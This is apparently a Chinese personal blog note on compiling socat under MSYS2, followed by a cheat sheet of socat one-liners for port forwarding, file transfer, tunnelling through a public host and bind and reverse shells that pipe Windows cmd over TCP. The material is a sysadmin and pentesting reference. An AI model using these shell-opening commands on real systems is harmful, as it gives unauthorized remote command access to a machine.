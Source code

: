 ```yaml
---
author: XhstormR
categories:
- Notes
date: 2020-01-28T21:49:39+08:00
title: 构建 socat
---
```


<!--more-->

Updated on 2020-01-28

> {{< image "/uploads/doorway.svg" "doorway" "1" "1" >}}
>
> [MSYS2](https://mirrors.tuna.tsinghua.edu.cn/msys2/distrib/msys2-x86_64-latest.tar.xz)
>
> [socat](http://www.dest-unreach.org/socat/download/socat-1.7.3.4.tar.gz)

## Step
```bash
D:\Work\Download\socat>

pacman -Syu
pacman -S --noconfirm --needed gcc make libreadline-devel

./configure CFLAGS='-s -static -Os' && make
```

```bash
单向模式:
-u in -> out
-U out <- in

Bind Shell
----
LHOST:
ncat 127.0.0.1 1234
or
socat tcp-connect:127.0.0.1:1234 readline
RHOST:
socat tcp-listen:1234,fork,reuseaddr exec:"cmd",pty,stderr

Reverse Shell
----
LHOST:
socat tcp-listen:1234,fork,reuseaddr readline
RHOST:
socat tcp-connect:127.0.0.1:1234 exec:"cmd",pty,stderr

单进程应用 -> 多进程服务
----
LHOST:
socat -u tcp-connect:127.0.0.1:1234 -
RHOST:
socat -U tcp-listen:1234,fork,reuseaddr exec:"busybox ps",pty,stderr

监听端口
----
LHOST:
socat tcp-listen:1234,fork,reuseaddr -
RHOST:
ncat 127.0.0.1 1234
or
curl 127.0.0.1:1234

端口转发
----
socat tcp-listen:1234,fork,reuseaddr tcp-connect:192.168.1.19:3389

写入文件
----
echo 123 | socat -u - ./123.txt
or
echo 123 | socat -u - open:123.txt,wronly,create,append

读取文件
----
socat -U - ./123.txt
or
socat -U - open:123.txt,rdonly

文件传输
----
LHOST:
socat -u tcp-connect:127.0.0.1:1234 open:123.txt,wronly,create,trunc
RHOST:
socat -U tcp-listen:1234,fork,reuseaddr open:123.txt,rdonly

内网穿透（不推荐）
----
公网：
socat tcp-listen:1234,fork,reuseaddr tcp-listen:8080
内网：
socat tcp-connect:47.98.135.65:1234 tcp-connect:192.168.1.19:80
客户端：
curl 47.98.135.65:8080
```

## Reference
* http://www.dest-unreach.org/socat/doc/socat.html
